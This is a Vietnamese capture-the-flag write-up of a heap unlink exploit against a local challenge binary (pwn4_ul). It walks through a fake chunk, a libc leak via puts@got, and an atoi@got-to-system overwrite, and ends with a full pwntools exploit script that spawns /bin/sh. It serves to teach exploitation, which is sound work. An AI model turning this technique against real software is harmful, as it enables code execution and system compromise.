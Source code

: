 # Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
RUNPATH:  b'.'
```

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn4_ul` 

-> `unlink_heap_exploit`

# 2. Khai thác

- Bước 1: Tạo 5 chunk có kích thước lớn để đưa vào 

```
create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")
```

Chunk cấp phát của chúng ta cần > 0x78 để khi free có thể vào được `unsortedbin`

- Bước 2: Tạo 1 fake chunk

```
store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)
edit(3, 0x90, payload)
delete(4)
```

Do ở hàm edit có thể overflow được nên ta sẽ lợi dùng heap_overflow ở đây.

Chúng ta tạo fake chunk tại chunk_3

Khi đó fake chunk tại chunk 3 sẽ trông như sau:

![fake.png](images/fake.png)

Với `0x6020e0` là fd hay forwarding pointer dùng để trỏ tới chunk tiếp theo trong free list. 

Sau đó ta free fake chunk đó tại vị trí thứ 4:

![fake2.png](images/fake2.png)

Nhìn vào free list `unsortedbin`

Chunk tiếp theo là `0x78a1c1` (địa chỉ của fake_chunk ta vừa giải phóng). Khi đó địa chỉ `0x6020e0` sẽ trỏ đến `0x78a1c1`.

![fake1.png](images/fake1.png)

Tiếp theo nhìn vào địa chỉ `0x78a1c1` là phần data của chunk thứ 3

-> Chúng ta sẽ sửa data chunk_3 và ghi vào địa chỉ `0x6020e0` 

- Bước 3: Leak libc_base:

```
edit(3, 0x8, p64(0x602020))
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))
```
Tại sao chúng ta lại ghi vào `0x6020e0`?

![store1.png](images/store1.png)

Đây là địa chỉ của `store`. Nơi đây lưu địa chỉ của chunk's data

Và đầu của địa chỉ này là data của chunk_0.

Khi ta ghi đè vào đây bằng `0x602020` là địa chỉ của `puts@got.plt` 

-> Khi show heap_0 sẽ lấy giá trị tại đây ra và leak được libc.

- Bước 4: Ghi đè `system` vào `atoi_got`

```
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")
```

Ở hàm edit_heap() có 1 hàm readInt() mà return atoi(nptr), ở đây `nptr` là ta nhập vào 

-> Ghi đè atoi() thành system() rồi nhập `/bin/sh` để thực thi.

Như đã nói ở trên, ở vị trí data của chunk_3 là ta sẽ ghi được vào địa chỉ `0x6020e0`. Data chunk_0 ta sẽ có địa chỉ tại `0x6020e0`

-> Khi đó ta ghi data chunk_0 vào data chunk_3

-> Ghi địa chỉ hàm system() vào atoi_got

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn4_ul_patched', checksec=False)

p = process("./pwn4_ul_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:", str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:", str(index))
    p.sendlineafter(b"Input newsize:", str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendafter(b"Input data:",data)

def delete(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:", str(idx))

create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")

store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)

edit(3, 0x90, payload)

delete(4)								#free(4) but 3 in unsoftedbin because of payload made the prog think the 3 th is unsortedbin

edit(3, 0x8, p64(0x602020))				#now all we edit chunk(3) is edit(0x6020e0). 0x6020e0 is the address of all chunk's data address
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))

#### stage 4 overwrite malloc with onegadget#######
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")

p.interactive()
```


